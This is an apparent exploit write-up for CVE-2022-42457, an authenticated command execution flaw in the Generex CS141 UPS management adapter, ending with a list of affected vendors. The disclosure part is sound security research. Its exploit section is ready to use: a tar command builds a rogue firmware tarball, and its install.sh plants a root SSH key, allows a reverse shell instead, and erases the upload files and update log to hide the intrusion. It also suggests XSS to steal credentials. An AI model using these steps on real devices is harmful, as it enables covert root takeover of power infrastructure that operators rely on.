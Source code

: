 # CVE-2022-42457 Generex-CS141-Authenticated-Remote-Command-Execution

## Description:
The device [CS141](https://www.generex.de/products/ups) is an Ethernet Adapter for the control and the management of UPS Facilities. A list of supported UPS Vendors can be found at the bottom.

The Firmware update process allows to execute arbitrary commands. Most of the time, these type of devices are overlooked and never controlled.
Therefore, it is from value to execute commands directly on the underlying Linux.

## Vulnerable versions
At the time of writing, **all** versions up to the latest version `2.10` are vulnerable. Therefore, no patch is currently available.

## Exploit
The update script located in `/usr/bin/gxserve-update.sh` simply executes the script `ìnstall.sh` inside a gzip compressed tarball as root.
The responsible function is `run_update()` which extracts the script install.sh from a tarball (line 111) and executes it (line 132,133).

![alt text](gxserve-update.sh.png "update script")

Therefore, to execute commands simply create a tarball with a `version` and `install.sh` file which contains your reverse shell or other commands.

The following command creates the update tarball with the install.sh script which will be executed. Please note, the `./` is important and the version number must be greater than the current version.
```
tar cvzf update211.tar.gz ./install.sh version
```
The `version` file should look like
```
version=2.11
```
The `install.sh` may look like
```
#!/bin/sh
# bch8
# Add your rev shell or simply an ssh pub key here
echo -n 'ecdsa-sha2-nistp384 AAAAE2...' >> /root/.ssh/authorized_keys

# Do some cleanup
rm -f /tmp/version
rm -f /var/www/hiawatha/upload/update*.tar.gz
rm -f /tmp/install.sh
echo -n > /var/log/update.log
sync
```


Now upload you tarball as new firmware and press start. This will run the vulnerable function `run_update()` and execute your install.sh script.
![alt text](webinterface.png "upload")


Further more, the client-side application has been done with the EOL Anuglar project, which contains a well known [Prototype Pollution vulnerability](https://security.snyk.io/vuln/SNYK-JS-ANGULAR-534884).
So a possible way to get credentials would be to prepare some XSS. The Authentication is done by the Hiawatha webserver.

## Supported Vendors:
```
 AEG
 PILLER POWER SYSTEMS
 Online
 VERTIV
 Eurotech Sweden (Riello)
 Legrand
 Mansshardt
 Inform
 Generex
 Kess
 Rittal
 Newave CH
 Eaton/Powerware
 Multimatic
 MetaSystem Energy
 Benning
 DRS Pivotal Power
 Errepi
 Borri S.p.A
 General Electric
 DKC Europe
 Roton
 CTA
 Akkutronik
 Newave GER
 UPS Service
 Allnet
 Effekta
 Kaufel
 Jovy Atlas
 ABB
 Nitram
 Astrid
 Kamic
 Inform
 THYCON
 Roline
 Ablerex
 Woehrle
 Fuji Electric
 S2S
 Triathlon
 Elektro-Automatik
 centiel
 ELIT srl
 CPS
 ACCENT MONITORING
 Coromatic
 Predictive Technology Inc.
 British Power Conversion
 Siel
 Alpha
 DFM Select
 SAPOTEC
 Gustav Klein
 apra net
 Leistung
 ELINEX
 AKI Power Systems
 COMPU Power South Africa
 Exponential Power
 Astrid neutral
 Infosec
 E-TEC
 TwinSource
 BACS / LED / SITEMAN
 SNG
 SICOTEC AG
 Eltek
 CET
 Salicru
 NetMinder
 Kohler Power
 International Business Resources
 Enedo
 AdPoS
 EnerSys
 Kess
 ALTERVAC
 GRUENCO
 Staco Energy
 Statron
 BJ Balfour
 POWER-ALL
 Genesys M2M
 AG IT PROJECT
```